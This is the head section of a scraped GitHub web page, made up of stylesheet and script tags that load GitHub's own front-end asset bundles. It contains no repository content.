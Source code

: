 





<!DOCTYPE html>
<html lang="en" data-color-mode="auto" data-light-theme="light" data-dark-theme="dark">
  <head>
    <meta charset="utf-8">
  <link rel="dns-prefetch" href="https://github.githubassets.com">
  <link rel="dns-prefetch" href="https://avatars.githubusercontent.com">
  <link rel="dns-prefetch" href="https://github-cloud.s3.amazonaws.com">
  <link rel="dns-prefetch" href="https://user-images.githubusercontent.com/">
  <link rel="preconnect" href="https://github.githubassets.com" crossorigin>
  <link rel="preconnect" href="https://avatars.githubusercontent.com">



  <link crossorigin="anonymous" media="all" integrity="sha512-gTJi5qrypRHWpLXsMZQXoL53mXDuVqfZc7AfuiFXreLhf7Pk1RMvXJMWJsiS8dpkFDfq/7t6bFZK+3xS1Ak+Lg==" rel="stylesheet" href="https://github.githubassets.com/assets/light-813262e6aaf2a511d6a4b5ec319417a0.css" /><link crossorigin="anonymous" media="all" integrity="sha512-CMdm0es1Ti46ZuFcKKz+jobtyuFMFz3OIWxrFfOGbsHzri6ehzY0MqUHRn9C23aqIUH6HrnhiqjxF6EcdWJ/ZQ==" rel="stylesheet" href="https://github.githubassets.com/assets/dark-08c766d1eb354e2e3a66e15c28acfe8e.css" /><link data-color-theme="dark_dimmed" crossorigin="anonymous" media="all" integrity="sha512-BuSuxJq/eJKvBSkc628ZMPWYFuRDuvjx9zYd9qvSlTzLeLPieLQN5xSCf5M9r+FcFXjKM6QZZlXtL6E3cmGUIQ==" rel="stylesheet" data-href="https://github.githubassets.com/assets/dark_dimmed-06e4aec49abf7892af05291ceb6f1930.css" /><link data-color-theme="dark_high_contrast" crossorigin="anonymous" media="all" integrity="sha512-hwUXTdeaR7CvyPs0A1D/6JPfPL8Kw5ROLomzsKt1kWikHyxJlF2BpNoeNTBvId3UfSAvs7aN7sFHuuvxyQIOJQ==" rel="stylesheet" data-href="https://github.githubassets.com/assets/dark_high_contrast-8705174dd79a47b0afc8fb340350ffe8.css" /><link data-color-theme="dark_colorblind" crossorigin="anonymous" media="all" integrity="sha512-uWIIE9NeQoOg9WxtV8wRqBongxd0Gq2FU5z338xK5CKnkJ5N9oIA/eRb3VrwDrC8JjkY6cXbyQxlDGb0aycO4g==" rel="stylesheet" data-href="https://github.githubassets.com/assets/dark_colorblind-b9620813d35e4283a0f56c6d57cc11a8.css" /><link data-color-theme="light_colorblind" crossorigin="anonymous" media="all" integrity="sha512-ytMK66Cuij41v31Kuiae888Pc07/HqRHHpLnyxwbjPJ1dK0xMqvj57VwCf/yTTR0EvxIaCZDYDapJhDq9pwHDA==" rel="stylesheet" data-href="https://github.githubassets.com/assets/light_colorblind-cad30aeba0ae8a3e35bf7d4aba269ef3.css" />
  <link crossorigin="anonymous" media="all" integrity="sha512-MvLtV2/OWa5ePOOP/DyEwPyGgv8FMeqZy6Qvwi84YTueEwn/k5wEHExDl9kEMHBcwpKn1bne96DY0vFUDnuABg==" rel="stylesheet" href="https://github.githubassets.com/assets/frameworks-32f2ed576fce59ae5e3ce38ffc3c84c0.css" />
    <link crossorigin="anonymous" media="all" integrity="sha512-Qh23gUQIFuCwgMSYYlcFp+p2Eoll1aoAvhVpTFxWoEGBNBhsg++XLbKVQH2ExracaioZHBa50vz70lD2tsvnPQ==" rel="stylesheet" href="https://github.githubassets.com/assets/behaviors-421db781440816e0b080c498625705a7.css" />
    <link crossorigin="anonymous" media="all" integrity="sha512-MCJFYfbQoT4EXC6aWx5Wghs8FC/jslHEeN2iWXphliccmede2dQlhIBTAUCBq9Yu5poltu4askungzvyCsycGg==" rel="stylesheet" href="https://github.githubassets.com/assets/tab-size-fix-30224561f6d0a13e045c2e9a5b1e5682.css" />
    
    
    
    <link crossorigin="anonymous" media="all" integrity="sha512-xQA1swKvPcyLnMz+O3ibk/mGcSbDTOMKdbjLNeEgEvWCeOnAnAYE/KRfU1FO4J0HWgXnhRI06qLqsCoJa5H9PQ==" rel="stylesheet" href="https://github.githubassets.com/assets/github-c50035b302af3dcc8b9cccfe3b789b93.css" />

  <script crossorigin="anonymous" defer="defer" integrity="sha512-K/kjAAGVhlckApEbskyYOB+ASq3m0GKyJk3y0JoEafwknEbUpmilodEuQQJG09c0v1eCRlX7mSQp+GLGtXmWQg==" type="application/javascript" src="https://github.githubassets.com/assets/environment-2bf92300.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-oBDjsGOOnyhlA5UdJdsqQzoij+eSWL6RSaWwVH1rDeFBEF4uXgY2qvYkGz7GGEXL43PMXoO+HJk3pOOTnW7Snw==" type="application/javascript" src="https://github.githubassets.com/assets/chunk-frameworks-a010e3b0.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-CKnQmXbdqX/H/LLDNtlh2Ikm4RWo37WfDOv9+rUUbKj+TU53iRrGwlincmixkyjECvfYXtpQLsGzrUgrkIfTBg==" type="application/javascript" src="https://github.githubassets.com/assets/chunk-vendor-08a9d099.js"></script>
  
  <script crossorigin="anonymous" defer="defer" integrity="sha512-JpG/OesTt58bI46TZFABCOILZj0i2+/gszQlKHX39t4+YNJT4alQrFszL9DiZ41Wdf0AxBbbTZtz35UgoU7eEg==" type="application/javascript" src="https://github.githubassets.com/assets/behaviors-2691bf39.js"></script>
  
    <script crossorigin="anonymous" defer="defer" integrity="sha512-ODZJzCJpaOfusrIka5QVZQcPiO9LBGyrrMYjhhJWSLuCN5WbZ5xiEiiOPOKVu71dqygyRdB2TY7AKPA1J5hqdg==" type="application/javascript" data-module-id="./chunk-unveil.js" data-src="https://github.githubassets.com/assets/chunk-unveil-383649cc.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-emPgUbSwW9ezLCgRnTE7n4fbbfc/MqEEDHmnkmG61dTyjWKHTYKN4wN3OPS7SY0fwmSJ8mB5+gng2nZw4/HsUg==" type="application/javascript" data-module-id="./chunk-animate-on-scroll.js" data-src="https://github.githubassets.com/assets/chunk-animate-on-scroll-7a63e051.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-x6L94lNXrnj4GyXhVug6j63GettxBVe/yQmgJU42IbfJet6sW2RBDG4tbZVkLbOCiYrNy+1Zwvoc1gA6uzSPow==" type="application/javascript" data-module-id="./chunk-input-demux.js" data-src="https://github.githubassets.com/assets/chunk-input-demux-c7a2fde2.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-d9zLk770daEV3pV4uNV22h2h49h/QxYstihxVyOEMetKZVhZcWW9bbqXOp2e1I7sIpuIj3xcpUSdlZKJxdl3tw==" type="application/javascript" data-module-id="./chunk-ref-selector.js" data-src="https://github.githubassets.com/assets/chunk-ref-selector-77dccb93.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-qD/5tz/GcwW3JIAEWlYOhr1tAQARpth6oFJ4ZpDWSpBgCiX4yh9FyUAGwuJtpPpMdp09fAjM6yh6r98Tw4/iRw==" type="application/javascript" data-module-id="./chunk-filter-input.js" data-src="https://github.githubassets.com/assets/chunk-filter-input-a83ff9b7.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-ynV5nM8UuCr4KZ/msFeRxRL6LnG+XUKzIfh6LNIzQ21ecjLVPvm53ghTE54aIuSUaHJWHnsYg8FRzycZIcRHiA==" type="application/javascript" data-module-id="./chunk-edit.js" data-src="https://github.githubassets.com/assets/chunk-edit-ca75799c.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-GhqHDMwaAgqUsjVyltYVhaaLYy2G887rPRXXNbsdaI+Xm3dh0fbaHLhZns70EjFAEpXBgCAYFYdnlG1IQFmz1A==" type="application/javascript" data-module-id="./chunk-responsive-underlinenav.js" data-src="https://github.githubassets.com/assets/chunk-responsive-underlinenav-1a1a870c.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-gmw7obKL/JEHWPp6zWFh+ynbXUFOidj1DN2aPiTDwP8Gair0moVuDmA340LD84A29I3ZPak19CEiumG+oIiseg==" type="application/javascript" data-module-id="./chunk-tag-input.js" data-src="https://github.githubassets.com/assets/chunk-tag-input-826c3ba1.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-Ao9llFIlj54ApuKf2QLboXukbu2h7MHfMmtYHrrsVe1lprKNLiA0usVcRpvruKhfT5STDuWm/GGmyx8ox27hWQ==" type="application/javascript" data-module-id="./chunk-notification-list-focus.js" data-src="https://github.githubassets.com/assets/chunk-notification-list-focus-028f6594.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-SPWd3rzrxmU6xW6vy1JPWCd+3uWFWmnd0MVGpmw/TpHWUAdLWDqL8kWyC/sBIZJmda4mTtUO1DHJQzAXRSrC+g==" type="application/javascript" data-module-id="./chunk-cookies.js" data-src="https://github.githubassets.com/assets/chunk-cookies-48f59dde.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-4vVRplWFI7P4m3RHQ0QAhkq6eZUdtIE8PBhsKYJRwDkhQw9iK/U1st1/fM1tQZFuBFwGMyqaZblbWtQ+2ejcqQ==" type="application/javascript" data-module-id="./chunk-slug.js" data-src="https://github.githubassets.com/assets/chunk-slug-e2f551a6.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-MK53GXbb2BPV+ADlEbJbkrvg34WPcAd5RC2nBJhUH1tR/Mjr9xrsf56ptBajfWcIWKRKbqqRtLktgr0wAbB3zw==" type="application/javascript" data-module-id="./chunk-async-export.js" data-src="https://github.githubassets.com/assets/chunk-async-export-30ae7719.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-tw9SApiMkftVBYeb6/VGhEwGNw8tlyBhXc9RVXH4UbCD6u+48uuCMvXf3bxvBdOld0OoYg83SnD2mgJWhdaTiQ==" type="application/javascript" data-module-id="./chunk-premium-runners.js" data-src="https://github.githubassets.com/assets/chunk-premium-runners-b70f5202.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-D576CjzS9sbDqFBJdq0Y6+KVMHXkO6mLFO/GRL1NtoE8jgXjAvmdjoZ4nNMWyDwqbtBHspvupORzE9L+YoBLYQ==" type="application/javascript" data-module-id="./chunk-get-repo-element.js" data-src="https://github.githubassets.com/assets/chunk-get-repo-element-0f9efa0a.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-xhSAO0KtnFAlRqAK+mg8BPj/J334ccvnCmmjmBQBCgZcsoO9teHJSS6oAn3XOWYFsWPU2JehwG7S3OVEbLwdUg==" type="application/javascript" data-module-id="./chunk-color-modes.js" data-src="https://github.githubassets.com/assets/chunk-color-modes-c614803b.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-jitxouuFY6SUcDZV5W3jhadVEIfFBfCQZxfPV3kxNnsWEBzbxMJFp0ccLb7+OlBjSs1zU/MNtuOV6T9Ay7lx4w==" type="application/javascript" data-module-id="./chunk-copy.js" data-src="https://github.githubassets.com/assets/chunk-copy-8e2b71a2.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-Auj2atZZccqguPinFmOL2k1TCzZs/yfMMFF5aMYMB/5miqEN7v4oAFG0o3Np24NOTkJ9o/txZCeuT6NGHgGoUA==" type="application/javascript" data-module-id="./chunk-voting.js" data-src="https://github.githubassets.com/assets/chunk-voting-02e8f66a.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-HDsLJf6gAN+WDFaJneJwmIY82XkZKWqeX7tStBLRh1XM53K8vMV6JZvjq/UQXszaNVWxWcuYtgYTG6ZWo8+QSw==" type="application/javascript" data-module-id="./chunk-confetti.js" data-src="https://github.githubassets.com/assets/chunk-confetti-1c3b0b25.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-zEirtMGIgj3NVAnB8kWhDykK5NLa7q4ugkIxB7EftbovRjhU3X5I/20Rploa4KGPwAR27e36rAljHIsDKbTm/Q==" type="application/javascript" data-module-id="./chunk-codemirror.js" data-src="https://github.githubassets.com/assets/chunk-codemirror-cc48abb4.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-Gr3ZcJt5t73JeBM3NwOEziKyDZ3HpHwzqZL/c1pgTUfo+6QC5f88XXRw/RT6X2diwqvaa3OVFh0oWsZ9ZxhtdQ==" type="application/javascript" data-module-id="./chunk-tip.js" data-src="https://github.githubassets.com/assets/chunk-tip-1abdd970.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-EdQvlnI4Pu5Q6K0HCvp+mi0Vw9ZuwaEuhbnCbmFKX+c0xwiUWY0L3n9P0F6doLhaHhfpvW3718+miL11WG4BeA==" type="application/javascript" data-module-id="./chunk-line.js" data-src="https://github.githubassets.com/assets/chunk-line-11d42f96.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-4zSHP2sQXPKoN9jFy8q2ThHsQNej8s4qhubSR4g0/2dTexAEnoTG+RbaffdIhmjfghGjpS/DlE0cdSTFEOcipQ==" type="application/javascript" data-module-id="./chunk-array.js" data-src="https://github.githubassets.com/assets/chunk-array-e334873f.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-g8fb6U7h9SkWgiK69nfNMn4aN5D2YBYPZUbCIuLpemWoOw8NOaZY8Z0hPq4RUVs4+bYdCFR6K719k8lwFeUijg==" type="application/javascript" data-module-id="./chunk-band.js" data-src="https://github.githubassets.com/assets/chunk-band-83c7dbe9.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-6oWCu7ltWLHlroIRg8mR6RloC1wqKS9aK9e5THWgzaE2GNPAdoC+MLZEYD/TdIiZxsQRev0RInyonsXGBK0aMw==" type="application/javascript" data-module-id="./chunk-toast.js" data-src="https://github.githubassets.com/assets/chunk-toast-ea8582bb.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-miaiZ1xkDsWBUsURHOmeYtbgVKQGnm1octCo/lDXUmPzDyjtubnHULRVw1AK+sttwdwyB0+LOyhIVAWCNSGx+A==" type="application/javascript" data-module-id="./chunk-delayed-loading-element.js" data-src="https://github.githubassets.com/assets/chunk-delayed-loading-element-9a26a267.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-GD25CNhMGDMzEmeFhUT0FILBupAkx5/CHohnYXOP1togy40O0iu/lASaSp3gV8ue0nwscalJVQqR5gKDRHHDVg==" type="application/javascript" data-module-id="./chunk-three.module.js" data-src="https://github.githubassets.com/assets/chunk-three.module-183db908.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-Ofk7ddnMsJ6F9d2vCuPQav+FG9Rg8i6WRG2KmbzwT01S9H4y58Fl42zYxDh/lJjOWeSyOB9KJyfIkdpCCTYG9A==" type="application/javascript" data-module-id="./chunk-invitations.js" data-src="https://github.githubassets.com/assets/chunk-invitations-39f93b75.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-vFR+IqThljOLrAWmjhOL/kiQrjgZZg95uPovX0J7kRH5p7Y049LDRZaXLMDijfeqqk71d3MMn9XP5bUcH+lB9w==" type="application/javascript" data-module-id="./chunk-profile.js" data-src="https://github.githubassets.com/assets/chunk-profile-bc547e22.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-FeRujRzXPfs03roBR3mnHvWukfFpu27XbyZPQri9jcCY0AdUWSM5R4drHTJUDQ62Pz/aX0rSS5xORvTu7NsjlQ==" type="application/javascript" data-module-id="./chunk-overview.js" data-src="https://github.githubassets.com/assets/chunk-overview-15e46e8d.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-xqw233932eUGcGURAPuwUWZpC5Km/9Btq7/2Jnkt1rSWnPSVfMl+JKpr9eLtCoQmrpgP8vaghEuX8bWAS8fzTg==" type="application/javascript" data-module-id="./chunk-advanced.js" data-src="https://github.githubassets.com/assets/chunk-advanced-c6ac36df.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-6Rmd0BBAsJ9ouvb/pgrkToMPs5ogcqi8rcQ7R3GDPPHIjlu0NZ0Bx6HUn/aOruMCECETHm4Exfs5gjYdHs66RQ==" type="application/javascript" data-module-id="./chunk-runner-groups.js" data-src="https://github.githubassets.com/assets/chunk-runner-groups-e9199dd0.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-xdGx4qSd2qa0c/AVc4wDqpBhFHasDjOZ5y+MbwuIRA+ar7YxAFhZ2pGFs/+W5hVjSv+BMfKrcWpgLwR3xPIWHA==" type="application/javascript" data-module-id="./chunk-profile-pins-element.js" data-src="https://github.githubassets.com/assets/chunk-profile-pins-element-c5d1b1e2.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-LrD2kFGlUY4JxKVeN3dgYfuhfq0akTPGHtqW0gxkM2sDqVY6pauK2k57tmMHw4TQdcUrs+RQnBc1HPD+ou+ZfQ==" type="application/javascript" data-module-id="./chunk-emoji-picker-element.js" data-src="https://github.githubassets.com/assets/chunk-emoji-picker-element-2eb0f690.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-EvJ2Fip59DXgARNuwTWgjdVqoCjhXQL73SP9yexijlWStKq92sfbKeGK5R4wIP0QOr39WsnW/Kaw3Wpl1QPfog==" type="application/javascript" data-module-id="./chunk-edit-hook-secret-element.js" data-src="https://github.githubassets.com/assets/chunk-edit-hook-secret-element-12f27616.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-W0EihGBOA1mE3orR7s2squ9xVaLXrwd2bOYY9SSslfZHrovrS6KenJU+XXn+CaykddON6/aFEd/FbuQ/FltI9Q==" type="application/javascript" data-module-id="./chunk-insights-query.js" data-src="https://github.githubassets.com/assets/chunk-insights-query-5b412284.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-D/5Ad6jlKQNRPSHbVN5ShlFXOTyRsKbT7O0cWbVHwtOZ/UrwOC5bHKaQFHTq46qeMBbFKyDG+oIdtm5G8NifDA==" type="application/javascript" data-module-id="./chunk-remote-clipboard-copy.js" data-src="https://github.githubassets.com/assets/chunk-remote-clipboard-copy-0ffe4077.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-SUjF5sI77QngAIQUwKJRgZuIM4qggFBMtOZJ3EFS7ecv4uq4BQQJivDVxNBG9api9/rWrpw0d6RzvTCz2GrbdA==" type="application/javascript" data-module-id="./chunk-series-table.js" data-src="https://github.githubassets.com/assets/chunk-series-table-4948c5e6.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-nrfktuuo7BZhPpJxM4fVi62vPbZu6VJZ7ykfarxBExTTDnchXEalCJOq2O3GrVdfWu9cdn9kR/J8+oeTAjdHlA==" type="application/javascript" data-module-id="./chunk-line-chart.js" data-src="https://github.githubassets.com/assets/chunk-line-chart-9eb7e4b6.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-IOMGagwchKC7UeWHK/bV/rO1F1/RZAH0fNNouWV2boLOtE1a9LUbesoRsYK7sz6aFXslPC8fLfow+yWpT1eZzQ==" type="application/javascript" data-module-id="./chunk-stacked-area-chart.js" data-src="https://github.githubassets.com/assets/chunk-stacked-area-chart-20e3066a.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-GohDpVrxfHqlavb8Zabvj+y/s6CHegYwyGpQxKtzR2MkQsynBC98LdLongRFMHI+TKAECLavp200Lsy9JbV5TQ==" type="application/javascript" data-module-id="./chunk-presence-avatars.js" data-src="https://github.githubassets.com/assets/chunk-presence-avatars-1a8843a5.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-TpHTIXhA/2bI21CVmFL1oS3dv+8zveJVZLOVVAZwXNAAI94Hy70L9vT3Q1Vvkyu4Z2gi2iFdy1a53pfYlEDgnQ==" type="application/javascript" data-module-id="./chunk-pulse-authors-graph-element.js" data-src="https://github.githubassets.com/assets/chunk-pulse-authors-graph-element-4e91d321.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-aNAcFMlIdG1ocY5LnZylnN/6KXiJxyPvKg7y1Jnai732wdnrjXazcvNiQkRnj5FY8WP6JRa3K4doCReA4nhj7w==" type="application/javascript" data-module-id="./chunk-stacks-input-config-view.js" data-src="https://github.githubassets.com/assets/chunk-stacks-input-config-view-68d01c14.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-MXXdKvrDUhz9jfXB1/McrPebK8VbV5haYcxcNt5WXgbUym55dZattmCIAK2pJFAD2h4aBUFHo7CzpjmDYf7EkQ==" type="application/javascript" data-module-id="./chunk-community-contributions.js" data-src="https://github.githubassets.com/assets/chunk-community-contributions-3175dd2a.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-cet9hnkE+vaMPz2lGw4InoQD4ZuVWd+S0JRTspISoRSd2xj9qYD2E7Fnpne5Ic3z6vutruWIuZlzF30ecrFVew==" type="application/javascript" data-module-id="./chunk-discussion-page-views.js" data-src="https://github.githubassets.com/assets/chunk-discussion-page-views-71eb7d86.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-5+v3VN/rhJv/1iAOVphuCGs1FM9eUlSB43CJLw1txGMLvuPNNz/xHQbzTOIW+t2NKFpTnptRvKbuicQ3Jp28UQ==" type="application/javascript" data-module-id="./chunk-discussions-daily-contributors.js" data-src="https://github.githubassets.com/assets/chunk-discussions-daily-contributors-e7ebf754.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-/PSS3erY5t+SZL9B5T6Edgzy2pLD3jx7G/ZqQE+UCPhaaMEEc8Qrhv5XTREOOX0e3DquvxVDDM/KVa6SK/BPcA==" type="application/javascript" data-module-id="./chunk-discussions-new-contributors.js" data-src="https://github.githubassets.com/assets/chunk-discussions-new-contributors-fcf492dd.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-7vazCSTbHAmhDkKepqPuoJu5ZlBV51uKBKdUTiKd5UylsfULxuXr6XtFSZ16eU4TzdMAifa2hR4riO/QRi/9gw==" type="application/javascript" data-module-id="./chunk-tweetsodium.js" data-src="https://github.githubassets.com/assets/chunk-tweetsodium-eef6b309.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-AVKfqEKBF/JCvS2PoakItu304k6gGt9oSMBW2R/eEfGsGuTmC9QeiQw//IJJKFRQdrzpha/FoC/cws9v6dsujQ==" type="application/javascript" data-module-id="./chunk-jump-to.js" data-src="https://github.githubassets.com/assets/chunk-jump-to-01529fa8.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-mQXS2AvjT52IlcDNeeAaWUnOLa3aaGISiApB7zeboZBSILzsVM1ikEJdM7VIaH+xwYYT/D6lqtIwjO1/KVbK2Q==" type="application/javascript" data-module-id="./chunk-user-status-submit.js" data-src="https://github.githubassets.com/assets/chunk-user-status-submit-9905d2d8.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-4xtjUJAtGhsZOLk+SHoir8MWF0vKHoR4tGlR36xsg1kGrE9ftN4BHe21k2TT5jSkqz5x8z7BfZKj/eUuwcZMEQ==" type="application/javascript" data-module-id="./chunk-launch-code-element.js" data-src="https://github.githubassets.com/assets/chunk-launch-code-element-e31b6350.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-NilVxyBbQNJ61v85EVcC3VjOsz5tz+bOlaR1h1R+jIFXNT8VhoalRgPXREht+R3JIZF5fiqkkHZy3+01pX4ZDg==" type="application/javascript" data-module-id="./chunk-metric-selection-element.js" data-src="https://github.githubassets.com/assets/chunk-metric-selection-element-362955c7.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-VtwQp1HbSSWXOsB5a8wzpRH8Bl7/vD0jgBgXsp2K2CTYkhfq/LAWps52SnVQjcRPoB2svCVaJV20hyFuCbGL3w==" type="application/javascript" data-module-id="./chunk-severity-calculator-element.js" data-src="https://github.githubassets.com/assets/chunk-severity-calculator-element-56dc10a7.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-yXHkwiNZgB6O0iSDKE8jrZzTtTyF8YdFFXHcemhWEPuN3sWs1PQrSwEh0Gw4/B9TIzUfvogbqlJ71yLLuqyM+Q==" type="application/javascript" data-module-id="./chunk-readme-toc-element.js" data-src="https://github.githubassets.com/assets/chunk-readme-toc-element-c971e4c2.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-QMvMhJF7+RJNuy+lp8zP+XbKf08Cc36NVOw6CMk0WRGAO1kmoNhTC+FjHB5EBFx/sDurFeYqerS3NGhusJncMA==" type="application/javascript" data-module-id="./chunk-feature-callout-element.js" data-src="https://github.githubassets.com/assets/chunk-feature-callout-element-40cbcc84.js"></script>
